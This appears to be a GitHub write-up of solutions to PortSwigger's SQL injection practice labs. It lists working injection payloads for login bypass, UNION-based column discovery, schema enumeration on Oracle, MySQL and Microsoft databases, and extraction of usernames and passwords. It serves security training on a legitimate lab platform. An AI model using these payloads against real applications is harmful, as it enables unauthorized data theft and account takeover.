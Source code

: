 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can say the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
   
  `||'~'||` will join `username and password` like  `administrator~wet39rb7kc6kt99lq0o6`
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`


<h3>- Examining the database in SQL injection attacks</h3>

[7.Lab: SQL injection attack, querying the database type and version on Oracle]()
 
1. *Solutions*

On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: UNION SELECT 'abc' FROM DUAL 

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL--` we can say the first and second columns have string values.
   to retrieve the version of the database, for Oracle we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):

   * SELECT banner FROM v$version
   * SELECT version FROM v$instance
   
   the payload will be like:
   
   `'+UNION+SELECT+banner,NULL+FROM+v$version--`
   
   `'+UNION+SELECT+version,NULL+FROM+v$instance--`
   
[8.Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft) 

 1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL+FROM+DUAL#` we can say the database has tow columns.
   By applying `'+UNION+SELECT+'abc','xyz'+FROM+DUAL#` we can say the first and second columns have string values.
   Now to retrieve data from only one column we can use the following payload
   to retrieve the version of the database, for Microsoft DB we can use [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet):
   
   Microsoft	SELECT @@version
   
   the payload will be like:
   
   `'+UNION+SELECT+@@version,NULL+FROM+DUAL#`
   
   `'+UNION+SELECT+NULL,@@version+FROM+DUAL#`
   
[9.Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

 1. *Solutions*
 
   As we can see the Database respond for  `'+UNION+SELECT+NULL,NULL--` that is mean there are tow tables.
   
   By usin payload `'+UNION+SELECT+'abc','xyz'--` we can get that both tables have string values.
   
   use payload `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns-- ` to get table name `users_xxxx`
   
   use payload `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='USERS_ABCDEF'--` o retrieve the details of the columns in the table (replacing the table name) in my case is `users_ggighe` you can get that by search in bottom right filed in Burp Suite using `users`
   
   By using `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_ggighe'--` you can see the user_xxxx and password_xxxx
    
   now change the column by user_xxx,password_xxxx.by using `'+UNION+SELECT+username_xxxx,+password_xxxx+FROM+users_xxxx--`
   then search by administrator and get the password
   
   Finally loging using administrator and its password
    
[10.Lab: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

 1. *Solutions*
 
   Note that in Oracle every SELECT statement must specify a table to select FROM.
   
   There is a built-in table on Oracle called DUAL which you can use for this purpose. For example: UNION SELECT 'abc' FROM DUAL.
   
   By using `'+UNION+SELECT+'abc','xyz'+FROM+DUAL--` we can say the database has tow columns and both have string values.
   
   By using `'+UNION+SELECT+table_name,NULL+FROM+all_tables--` will get the name of the table.
   
   Then use `'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_TJQMGZ'--` to retrieve the usename and password
   
   After you get the username and password use payload `'+UNION+SELECT+USERNAME_TZBHEF,PASSWORD_YAKDEJ+FROM+USERS_TJQMGZ--` to get username and password of the administrator
   
   Finally loging using administrator and its password
   
   
   

